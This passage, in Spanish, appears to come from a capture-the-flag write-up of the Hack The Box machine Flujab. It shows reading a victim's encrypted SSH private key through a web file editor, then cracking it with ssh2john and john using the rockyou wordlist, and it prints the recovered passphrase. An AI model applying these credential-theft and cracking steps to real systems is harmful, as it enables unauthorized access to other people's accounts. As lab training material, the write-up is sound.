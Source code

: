 Puedo acceder a la interfaz con las credenciales de antes

<img src="/writeups/assets/img/Flujab-htb/22.png" alt="">

Dentro hay un editor de archivos, de los cuales puedo abrir de la máquina víctima

<img src="/writeups/assets/img/Flujab-htb/23.png" alt="">

En ```/home/drno/.ssh/userkey``` hay una id_rsa encriptada. La crackeo con ```john```

```null
ssh2john id_rsa > hash
```
```null
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
shadowtroll      (id_rsa)     
1g 0:00:00:00 DONE (2023-02-27 16:11) 2.040g/s 2647Kp/s 2647Kc/s 2647KC/s shadu..shadowtroll
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
